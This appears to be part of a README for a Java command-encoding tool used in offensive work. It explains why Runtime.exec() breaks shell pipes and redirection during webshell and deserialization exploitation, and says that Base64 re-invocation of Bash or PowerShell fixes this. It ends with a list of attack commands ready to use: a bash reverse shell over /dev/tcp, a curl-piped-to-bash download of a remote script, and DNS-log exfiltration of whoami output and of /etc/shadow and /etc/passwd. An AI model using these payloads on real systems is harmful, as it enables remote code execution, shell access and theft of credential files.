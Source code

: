 <div align=center><img src=images/image-20240830151318754.png width=80% ></div>

##### **【Java Encoding】**

Sometimes, using `Runtime.getRuntime().exec()` to execute a command payload can fail, especially when exploiting WebShells, deserialization vulnerabilities, or other attack vectors.

This failure often happens due to the way redirection and pipe characters are handled in the context of the process being launched. For example, `ls > dir_listing` should list the current directory’s contents into a file called `dir_listing` when executed in a shell. However, within the `exec()` function’s context, this command may be misinterpreted as a command to list the directory `>` and `dir_listing`.

In other cases, arguments containing spaces might be broken by the `StringTokenizer` class, which splits the string at spaces. For example, `ls "My Directory"` might get split and interpreted as `ls '"My' 'Directory"'`.

By utilizing **Base64 encoding**, the **Java Command Encoder** can help mitigate these issues. It allows for better handling of pipes and redirection by invoking Bash or PowerShell again and ensures that parameters with spaces are properly processed.

**Common Command List**:

```
bash -i >& /dev/tcp/127.0.0.1/6666 0>&1
ping `whoami`.key.dnslog.cn
curl http://www.google.com/bash.txt|bash
curl http://key.dnslog.cn/?r=`whoami`
curl http://key.dnslog.cn/?r=`cat /etc/shadow|base64`
curl http://key.dnslog.cn/?r=$(cat /etc/passwd|base64|tr '\n' '-')
curl http://www.google.com/key.txt
curl http://www.google.com/key.txt -O
curl http://www.google.com/key.txt -o key.txt
```
